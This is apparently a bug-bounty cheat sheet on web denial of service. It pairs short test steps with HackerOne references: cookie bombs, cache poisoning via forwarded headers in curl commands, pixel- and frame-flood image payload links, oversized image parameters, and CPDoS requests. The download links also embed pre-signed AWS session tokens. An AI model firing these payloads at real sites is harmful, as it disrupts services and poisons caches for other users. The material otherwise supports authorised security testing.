 # Denial of Service

1. Cookie bomb
```
https://target.com/index.php?param1=xxxxxxxxxxxxxxxxxxxxxx
```
After input "xxxxxxxxxxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerable

References: [Hackerone #105363](https://hackerone.com/reports/105363)

2. Try input a very long payload to form. For example using very long password or using very long email
```
POST /Register
[...]

username=victim&password=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

References: [Hackerone #840598](https://hackerone.com/reports/840598)

3. Cache poisoning, can using header "X-Forwarded-Port" or "X-Forwarded-Host"
```
curl -H "X-Forwarded-Port: 123" https://target.com/index.php?poison=1
```
```
curl -H "X-Forwarded-Host: target.com:123" https://target.com/index.php?poison=1
```

Reference: [Hackerone #409370](https://hackerone.com/reports/409370)

4. Pixel flood, using image with a huge pixels

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/128/5f5a974e5f67ab7a11d2d92bd40f8997969f2f17/lottapixel.jpg?response-content-disposition=attachment%3B%20filename%3D%22lottapixel.jpg%22%3B%20filename%2A%3DUTF-8%27%27lottapixel.jpg&response-content-type=image%2Fjpeg&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQYFO7EZHL%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110133Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFIaCXVzLXdlc3QtMiJGMEQCIGgY3dUtffr4V%2BoxTJaFxc%2F7qjRodT3XLyN1ZLEF8%2FhfAiAXklx1Zvy3iKIGm1bocpDUP1cTx46eTbsDOKqRC93fgyq0AwhbEAEaDDAxMzYxOTI3NDg0OSIMH9s8JiCh%2B%2FNADeibKpEDocuqfbmxkM5H5iKsA3K4RuwcxVT9ORLJrjJO%2FILAm%2BcNsQXTgId%2Bpw1KOLkbFKrq0BQIC6459JtfWqHPXvDC7ZJGboQ%2FXE0F%2BAZQa6jaEyldrkKuDewNy5jy3VX1gquS%2BWrGl%2BGhwmXB4cg1jgOugGUsC%2FxD%2BcragIJAtGA7lp3YdcL%2FiQbnvuzmLP8w%2FyCHPUrpOw94bPOk8fpetOJoLmDfXZdL3hLGBEUGS7dSOoyebLSXGZDctkSpnXCq383lWYWYn0LSv1ooVvuCVzgxE%2BZi4b4QvLjjMG3FJdEX%2BDYmnDvnSrRoDtyj8bD3cP3xbZ3jaNYRbIlQTm2zR1DgoaDGE74FmpZWHcyC8zK0V6AKG6OzkcIaGRnGdDNSpZkN0DrWE7uY6BLiIGY16rflYOaElnbxijoMNDsU3MZH8gGk7crYJ%2FCeHeayInPBDgiREBgn7orAIjOY3xg8vzwKO96a90LmkK7wk977TbKfLIng1iNP9EMKYDjGePdBYDML9zBeqhO5LrVH%2BfbwzG5GXi0w5fnn%2BgU67AFRBwMChVRr%2FLW4j0PqpXUeN5ysVIuagoqSwqOhfwI9rtk56zTuGhO3du4raY5SOQ9vSkRdYHhga%2BW7oQTByD1ISiSaOjHs1s%2FrNfvIfMA8r0drPSykOdCuV2A5NhBpEPpT%2BuOosogdPihcORhO3hbcQJ9y4uxBsaBSJr%2F8S2CGjwZw7SOGmNaNFsPu%2BMRbYDA%2FH2eUMBl96w6KpUuNAXEPUcfq3weRMP1vXW62S4OyniYJ6DEVRkkE4eFZMUqy4c94uwSAegK54Po0V0sPM%2FncTESCgBf7Qe2zZlPhdRGZR%2F25cF6JTH0t2VIRQw%3D%3D&X-Amz-Signature=a837cb6b26bf437fa5008695310a21788918081c36e745d286c5cba9fd4a78e0)

References: [Hackerone #390](https://hackerone.com/reports/390)

5. Frame flood, using GIF with a huge frame

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/136/902000ac102f14a36a4d83ed9b5c293017b77fc7/uber.gif?response-content-disposition=attachment%3B%20filename%3D%22uber.gif%22%3B%20filename%2A%3DUTF-8%27%27uber.gif&response-content-type=image%2Fgif&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQ245MJJPA%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110848Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFMaCXVzLXdlc3QtMiJHMEUCIEC768ifpRHeEUucuNuVL%2FdcSsWMnGeNp%2FMhKs6afB01AiEAiZOP%2FwMaeQMITUni3aFcACIOqOHnWHgLKuXHRrb5LooqtAMIXBABGgwwMTM2MTkyNzQ4NDkiDHHy9PJ2ccl9cmsvyCqRA6bliBHBMPXR6NYflM%2BCXCCQ5VLdPCATpmLs9DhVuYsjxR3JUtVHnBvtfEYYWDWWsLoC3xuzmug5ycrAvqK%2BTYDYO7l4HD1rXfyEBkR579ZlUFab6bOL4i8nDqblun%2FeV253Sgd6GzL4E%2FXmUN%2FC6qNydSd9hp2fLoyNjqob6o5zJjmnqvZsq50ROOZwf1idkDtr163qeVZERnan7aY9rM%2FsX4iVdE4wY0rLw1maGRuDF2aLVCxPB681htsHt%2FpoZ18QY7LjcbNjbjB4PgXLd1sm5zQ4q9mPVxTZPvzo9BJCh7l6kMLHCtJXOXfrvvN8UBgIqr1KXvodzv7FRQYcvEpfw4pwCTWzBs8VeEcwS9gjOXFMNLNI8SZ9V76VQ5KrOIpKhzM9UQQN3DVzY3SwMHydX%2B%2BYcQTt%2FjvqTkorsltqob2g5E1K0U8btRLBvBqOo0Vbr75zLcLUUomDBQzSNSvJgTN43huYmkZxBpWAAId72Tt6m56aFQLXkCKGSoMxYjrrVW9jc37pVl3lZU7FIX0AMIuN6PoFOusBpDCrjFwR1Y7t7W8wLapYjI6yOkkvWTFwWvx38jZl9okqo5xchKolmKxKX7cfGPIyuUmSXc1xa0nKwYeOYlhQZfyI0NobqyWW81ITuuUjsBxULuqrXqfVl0PTjTTpqe%2FHvU6wYSE358XfggtcqaH9PPgNDOejgv%2FLnh9AH9nyqIWuaCu865IfAOupVVzFzQilyB2LDyQtTS4Kp5dHyEAibRQlqeKHWOkUE2mQefAaTxKLRKrs0mJQYSuC%2B4LQEB3Cq9Nhj5HN%2BYT7A7CDLrvyChyfYXQZYr0lR1jN91Yd7SBe2jB1Qls%2Bx%2FEUlQ%3D%3D&X-Amz-Signature=910a3812cf3b69f6fa72f39a89a6df2f395f8d17ef8702eeb164a0477c64fff5)

References: [Hackerone #400](https://hackerone.com/reports/400)

6. Sometimes in website we found a parameter that can adjust the size of the image, for example
```
https://target.com/img/vulnerable.jpg?width=500&height=500
```
Try change "500" to "99999999999"
```
https://target.com/img/vulnerable.jpg?width=99999999999&height=99999999999
```

References: [Hackerone #751904](https://hackerone.com/reports/751904)

7. Try changing the value of the header with something new, for example:
```
Accept-Encoding: gzip, gzip, deflate, br, br
```

References: [Hackerone #861170](https://hackerone.com/reports/861170)

8. Sometimes if you try bug "No rate limit", after a long try it. The server will go down because there is so much requests

References: [Hackerone #892615](https://hackerone.com/reports/892615)

9. ReDoS (Regex DoS) occurs due to poorly implemented RegEx

References: [Hackerone #511381](https://hackerone.com/reports/511381)

10. CPDoS ([Cache Poisoned Denial of Service](https://cpdos.org/))
- HTTP Header Oversize (HHO)
  
  A malicious client sends an HTTP GET request including a header larger than the size supported by the origin server but smaller than the size supported by the cache
  ```
  GET /index.html HTTP/1.1
  Host: victim.com
  X-Oversized-Header-1: Big_Value 
  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...
  Header size exceeded
  ```
- HTTP Meta Character (HMC)
  
  this attack tries to bypass a cache with a request header containing a harmful meta character. Meta characters can be, e.g., control characters such as line break/carriage return (\n), line feed (\r) or bell (\a).

  ```
  GET /index.html HTTP /1.1
  Host: victim.com
  X-Meta-Malicious-Header: \r\n
  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...
  Character not allowed
  ```
- HTTP Method Override (HMO)

  There are several headers present in HTTP Standard that allow modifying overriding the original HTTP header. Some of these headers are:
  ```
  1. X-HTTP-Method-Override
  2. X-HTTP-Method
  3. X-Method-Override
  ```
  The header instructs the application to override the HTTP method in request.
  ```
  GET /index.php HTTP/1.1
  Host: victim.com
  X-HTTP-Method-Override: POST
  ```
  The response is
  ```
  HTTP/1.1 404 Not Found
  ...
  POST on /index.php not foudn
  ```

- X-Forwarded-Port
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Port: 123
  ```
- X-Forwarded-Host
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Host: www.hackerone.com:123
  ```
  
![Response DoS](https://portswigger.net/cms/images/6f/83/45a1a9f841b9-article-screen_shot_2018-09-13_at_11.08.12.png)

References:
- [Hackerone #409370](https://hackerone.com/reports/409370)
- [CPDoS](https://cpdos.org/)